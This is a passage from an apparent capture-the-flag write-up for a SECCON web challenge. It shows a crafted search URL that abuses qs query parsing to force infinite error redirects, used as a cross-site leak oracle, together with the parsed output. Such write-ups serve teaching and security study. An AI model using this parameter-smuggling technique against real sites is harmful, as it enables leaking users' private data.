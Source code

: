 #### Step 3: Infinite redirects and finite redirects

The key factor in this step is a validation for request parameters:
```javascript
const hasTooLongParams = (params) => {
  return _.some(params, (v) => v.length > 500);
};

app.use((req, _res, next) => {
  if (hasTooLongParams(req.body) || hasTooLongParams(req.query)) {
    throw new Error("<marquee>Too long params</marquee>");
  } else {
    next();
  }
});
```

Now, consider the following search URL:
```
http://x-note-x.quals.seccon.jp:3000/?search=SECCON%7Ba&+filteredNotes=x&+filteredNotes[length]=100000
```

The redirected URL for Error A is
```
http://x-note-x.quals.seccon.jp:3000/error?msg=/app/views/index.ejs:22%0A%20%20%20%2020%7C%20%20%20%20%20%20%20%20%20%3Csection%20class=%22modal-card-body%22%3E%0A%20%20%20%2021%7C%20%20%20%20%20%20%20%20%20%20%20%3Carticle%20class=%22message%22%3E%0A%20%3E%3E%2022%7C%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cpre%20class=%22message-body%20is-dark%22%3E%3C%25=%0A%20%20%20%2023%7C%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20hitCount%20%3E%200%20&&%20filteredNotes[0]%20%7C%7C%20%27Not%20found%20...%27%0A%20%20%20%2024%7C%20%20%20%20%20%20%20%20%20%20%20%20%20%25%3E%3C/pre%3E%0A%20%20%20%2025%7C%20%20%20%20%20%20%20%20%20%20%20%3C/article%3E%0A%0ACannot%20convert%20object%20to%20primitive%20value&url=/?search=SECCON%7Ba&+filteredNotes=x&+filteredNotes[length]=100000
```
Then, this query parameters are parsed as follows:
```javascript
> require("qs").parse("msg=/app/views/index.ejs:22%0A%20%20%20%2020%7C%20%20%20%20%20%20%20%20%20%3Csection%20class=%22modal-card-body%22%3E%0A%20%20%20%2021%7C%20%20%20%20%20%20%20%20%20%20%20%3Carticle%20class=%22message%22%3E%0A%20%3E%3E%2022%7C%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cpre%20class=%22message-body%20is-dark%22%3E%3C%25=%0A%20%20%20%2023%7C%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20hitCount%20%3E%200%20&&%20filteredNotes[0]%20%7C%7C%20%27Not%20found%20...%27%0A%20%20%20%2024%7C%20%20%20%20%20%20%20%20%20%20%20%20%20%25%3E%3C/pre%3E%0A%20%20%20%2025%7C%20%20%20%20%20%20%20%20%20%20%20%3C/article%3E%0A%0ACannot%20convert%20object%20to%20primitive%20value&url=/?search=SECCON%7Ba&+filteredNotes=x&+filteredNotes[length]=100000")
{
  msg: '/app/views/index.ejs:22\n' +
    '    20|         <section class="modal-card-body">\n' +
    '    21|           <article class="message">\n' +
    ' >> 22|             <pre class="message-body is-dark"><%=\n' +
    '    23|               hitCount > 0 ',
  ' filteredNotes': { '0': '', '1': 'x', length: '100000' },
  url: '/?search=SECCON{a'
}
```
The redirected request violates the validation for request parameters because `req.query[" filteredNotes"].length > 500` is true. So, it is redirected to the error page again and the second redirected request also violates the validation. This means that infinite redirects will occur.


[^unintended]: I welcome unintended solutions because they help me learn something and create diversity in the challenges (but, as an author, I should emit no unintended solutions to maintain the quality of challenges).
[^xs-leak]: Frame Counting | XS-Leaks Wiki: https://xsleaks.dev/docs/attacks/frame-counting/